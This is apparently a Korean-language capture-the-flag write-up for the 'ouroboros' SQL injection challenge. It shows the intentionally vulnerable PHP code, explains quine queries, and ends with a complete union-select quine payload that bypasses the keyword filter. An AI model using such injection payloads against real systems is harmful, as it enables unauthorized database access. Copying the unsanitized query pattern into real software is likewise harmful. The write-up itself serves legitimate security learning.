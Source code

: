# ouroboros

## 1. Code
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|rollup|join|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_ouroboros where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("ouroboros");
  highlight_file(__FILE__);
?>
```

## 2. Condition
- `prob _ . rollup join @` 등을 필터링 한다.   
- GET 파라미터 `pw`를 통해 입력을 받고, 쿼리를 실행시킨다.   
- GET 파라미터 `pw`와 쿼리 실행 결과, `$result['pw']`를 비교하여 동일시 문제가 해결된다.   


## 3. Solution
보기엔 간단하지만, 상당히 난이도가 있었던 문제다.   

처음 문제를 접했을 때는 blind-sqli 문제인가? 했지만,   
자세히 보니 새로운 쿼리 없이 하나의 쿼리로 get과 결과를 비교한다.   
&rarr; `quine`과 관련있는 문제임을 직감했다.(문제이름도 ouroboros:꼬리를 삼키는 자)   

`quine`이란, 자기자신의 소스코드를 그대로 출력해 주는 프로그램이다.   
쉽게 말해, 소스코드가 `print(~~)`인 quine를 실행시키면 출력값으로 `print(~~)`가 그대로 나오는 프로그램이다.    


기존에 있는 quine query를 사용할 것인데, 그전에 해당 쿼리를 분석해봤다.    
우선, 쿼리는 다음과 같다.   
```sql
select replace(replace('select replace(replace("$",char(34),char(39)),char(36),"$")',char(34),char(39)),char(36),'select replace(replace("$",char(34),char(39)),char(36),"$")');
```

머릿속 만으로 이해하기 상당히 버겁다.   
차근차근 뜯어보며 살펴보자.   

우선, 큰 부분으로 분리시켜보면 다음과 같이 나온다.   
>    select replace(replace(</span><span style="color:blue">'select replace(replace("$",char(34),char(39)),char(36),"$")'</span>,char(34),char(39)),char(36),</span><span style="color:blue">'select replace(replace("$",char(34),char(39)),char(36),"$")'</span>);   

다시, 파란색 긴 문자열을 A로 치환하여 살펴보자.   
>    select replace(replace(</span><span style="color:blue">A</span>,char(34),char(39)),char(36),</span><span style="color:blue">A</span>);   

아스키코드 34,39,36에 해당하는 문자는 `" ' $`이다.   
우리가 치환한 문자열 A는 우리가 입력한 쿼리 그 자체의 한 부분이다.   
>    'select replace(replace("$",char(34),char(39)),char(36),"$")'   
>
>    여기에서 "는 '로, $에 동일한 문자열이 각각 들어가주면 우리가 입력한 쿼리와 완벽하게 일치하게 된다.   
    또한 해당 치환하는 과정은 replace 함수를 통해 이루어 진다.   


실제로 해당 쿼리를 실행시켜보면, 쿼리값과 동일한 결과가 나옴을 알 수 있다.   
```sql
mysql> select replace(replace('select replace(replace("$",char(34),char(39)),char(36),"$")',char(34),char(39)),char(36),'select replace(replace("$",char(34),char(39)),char(36),"$")') as quine;
+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| quine                                                                                                                                                                           |
+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| select replace(replace('select replace(replace("$",char(34),char(39)),char(36),"$")',char(34),char(39)),char(36),'select replace(replace("$",char(34),char(39)),char(36),"$")') |
+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
1 row in set (0.00 sec)
```   


이제 본격적으로 해당 쿼리를 문제에 적용시켜보자.   
```sql
' union select replace(replace('" union select replace(replace("$",char(34),char(39)),char(36),"$")%23',char(34),char(39)),char(36),'" union select replace(replace("$",char(34),char(39)),char(36),"$")%23')%23
```   

코드는 다음과 같다. 본래 쿼리를 이해한다면 쉽게 바꿀 수 있는 부분이다.   

해당 쿼리를 입력하면 문제가 해결되게 된다.